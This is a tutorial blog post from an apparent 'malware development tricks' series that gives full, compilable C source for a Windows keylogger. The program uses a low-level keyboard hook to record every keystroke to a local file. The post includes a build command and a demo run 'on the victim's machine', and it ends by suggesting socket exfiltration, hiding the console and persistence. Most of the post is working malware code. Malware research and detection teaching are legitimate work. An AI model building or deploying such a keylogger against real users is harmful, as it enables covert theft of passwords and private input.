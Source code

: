 ```yaml
---
title:  "Malware development trick 46: simple Windows keylogger. Simple C example."
date:   2025-05-01 03:00:00 +0300
header:
  teaser: "/assets/images/153/2025-05-02_09-20.png"
categories:
  - malware
tags:
  - red team
  - windows
  - malware
  - keyboard
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!        

![malware](/assets/images/153/2025-05-02_09-20.png){:class="img-responsive"}    

This post is very simple but not less important. One of my students ask about another simple trick in malware development: keylogging logic.      

To my surprise, I haven't written an article on this topic here. Sometimes you just want something simple: press a key, log it to a file, move on. Let's break it down.     

### practical example

I will show a simple proof-of-concept (PoC) in pure C. This tiny C keylogger uses the `WH_KEYBOARD_LL` hook to monitor keystrokes and write them to a local text file. To intercept keystrokes globally, we use:     

```cpp
hook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
```

This sets a low-level keyboard hook. Our callback (`KeyboardProc`) is invoked every time a key is pressed.    

If `VK_ESCAPE` is pressed, we unhook and exit:    

```cpp
if (p->vkCode == VK_ESCAPE) {
  runThread = false;
  UnhookWindowsHookEx(hook);
  PostQuitMessage(0);
}
```

We need logic to save keystrokes to a file:    

```cpp
// open file in append mode and save key
FILE* fp = fopen("keylog.txt", "a+");
if (fp) {
  DWORD key = p->vkCode;
  fprintf(fp, "key pressed: %c\n", MapVirtualKeyA(key, MAPVK_VK_TO_CHAR));
  fclose(fp);
}
```

No socket exfiltration, just writing to disk. Old-school.

The standard message processing cycle usually looks like this:

```cpp
while (runThread && GetMessage(&msg, NULL, 0, 0)) {
  TranslateMessage(&msg);
  DispatchMessage(&msg);
}
```

Keyboard events are taken from the queue using the `GetMessage` function and redirected to the `DispatchMessage` procedure, which handles messages for the window that is currently focused, using the `DispatchMessage` function.  The input focus is a property that can be given to a window made by Windows or a program. As long as the window is focused on input, all keyboard messages from the system queue will get to the right function in this window. An app can move the focus from one input window to another, like when you use `Alt+Tab` to switch to a different app:     

```cpp
BOOL GetMessage(
  [out]          LPMSG lpMsg,
  [in, optional] HWND  hWnd,
  [in]           UINT  wMsgFilterMin,
  [in]           UINT  wMsgFilterMax
);

LRESULT DispatchMessage(
  [in] const MSG *lpMsg
);
```

Usually, the `TranslateMessage` function is called before the `DispatchMessage` function. This function takes the `WM_KEYDOWN`, `WM_KEYUP`, `WM_SYSKEYDOWN`, and `WM_SYSKEYUP` messages as a starting point to make the "symbolic" messages `WM_CHAR`, `WM_SYSCHAR`, `WM_DEADCHAR`, and `WM_SYSDEADCHAR`. It is important to note that the original keyboard messages are not removed from this queue; instead, these "symbolic" messages are added to it:     

```cpp
BOOL TranslateMessage(
  [in] const MSG *lpMsg
);
```

Final full source code of our keylogger looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * save keystrokes to file
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/05/01/malware-tricks-45.html
 */
#include <windows.h>
#include <stdio.h>
#include <stdbool.h>

HHOOK hook;
LPMSG msg;
bool runThread = true;

LRESULT CALLBACK KeyboardProc(int code, WPARAM wParam, LPARAM lParam) {
  if (code == HC_ACTION && wParam == WM_KEYDOWN) {
    KBDLLHOOKSTRUCT* p = (KBDLLHOOKSTRUCT*)lParam;

    if (p->vkCode == VK_ESCAPE) {
      runThread = false;
      UnhookWindowsHookEx(hook);
      printf("hooking disabled by esc key. meow =^..^=\n");
      PostQuitMessage(0);
      return 0;
    }

    // open file in append mode
    FILE* fp = fopen("keylog.txt", "a+");
    if (fp) {
      DWORD key = p->vkCode;
      fprintf(fp, "key pressed: %c\n", MapVirtualKeyA(key, MAPVK_VK_TO_CHAR));
      fclose(fp);
    }
  }
  return CallNextHookEx(hook, code, wParam, lParam);
}

// classic keylogger logic
int main(int argc, char* argv[]) {
  MSG msg;

  // install the hook - using the WH_KEYBOARD_LL action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
  if (hook == NULL) {
    printf("failed to install hook :(\n");
    return 1;
  }

  printf("hook installed. meow =^..^= press esc to stop :)\n");

  // message loop
  while (runThread && GetMessage(&msg, NULL, 0, 0)) {
    TranslateMessage(&msg);
    DispatchMessage(&msg);
  }

  return 0;
}
```

### demo

Let's go to see everything in action. Compile `hack.c`:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/153/2025-05-02_09-14.png){:class="img-responsive"}    


Run `hack.exe` on the victim's Windows machine (`Windows 10 x64 22H2` in my case), type something, then press `ESC`. Check `keylog.txt` in the same directory:    

![malware](/assets/images/153/2025-05-02_09-18.png){:class="img-responsive"}    

![malware](/assets/images/153/2025-05-02_10-04.png){:class="img-responsive"}    

As you can see, everything is worked perfectly! =^..^=    

This is just the base. From here you could:

Obfuscate filenames    
Use sockets to send keystrokes remotely    
Hide the console window    
Make it [persistent](https://cocomelonc.github.io/tutorial/2022/04/26/malware-pers-2.html) (e.g. [registry](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) or [task scheduler](https://cocomelonc.github.io/persistence/2025/03/12/malware-pers-27.html))    

Stay tuned for more malware tricks! =^..^=

Several APT groups and cybercriminal organizations like [APT37](https://malpedia.caad.fkie.fraunhofer.de/actor/apt37), [Sandworm](https://malpedia.caad.fkie.fraunhofer.de/actor/sandworm) and malware like [MyDoom](https://malpedia.caad.fkie.fraunhofer.de/details/win.mydoom), [ROKRAT](https://attack.mitre.org/software/S0240/) or [NOKKI](https://attack.mitre.org/software/S0353/) have employed this trick.    

I hope this post is useful for malware researchers, C/C++ programmers, spreads awareness to the blue teamers of this interesting classic keylogging technique, and adds a weapon to the red teamers arsenal.      

[GetMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getmessage)    
[DispatchMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-dispatchmessage)    
[TranslateMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-translatemessage)     
[APT37](https://malpedia.caad.fkie.fraunhofer.de/actor/apt37)    
[Sandworm](https://malpedia.caad.fkie.fraunhofer.de/actor/sandworm)     
[MyDoom](https://malpedia.caad.fkie.fraunhofer.de/details/win.mydoom)     
[ROKRAT](https://attack.mitre.org/software/S0240/)     
[NOKKI](https://attack.mitre.org/software/S0353/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2025-05-01-malware-trick-46)    

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
